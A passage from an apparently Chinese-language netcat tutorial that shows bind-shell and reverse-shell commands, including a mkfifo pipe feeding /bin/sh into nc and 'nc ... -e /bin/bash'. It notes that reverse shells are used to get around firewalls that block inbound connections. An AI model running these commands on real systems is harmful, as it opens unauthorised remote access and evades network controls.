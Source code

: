 Client

	$nc 172.31.100.7 1567

这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash

假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell

Server

	$mkfifo /tmp/tmp_fifo
	$cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo

这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2\>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。

说明：

从网络收到的输入写到fifo文件中

cat 命令读取fifo文件并且其内容发送给sh命令

sh命令进程受到输入并把它写回到netcat。

netcat 通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

Client

	$nc -n 172.31.100.7 1567

你会得到一个shell提示符在客户端

### 反向shell

反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

服务端

	$nc -l 1567

在客户端，简单地告诉netcat在连接完成后，执行shell。

客户端

	$nc 172.31.100.7 1567 -e /bin/bash

现在，什么是反向shell的特别之处呢

反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。

### **10. 指定源端口**

假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。

服务器端

	$nc -l 1567
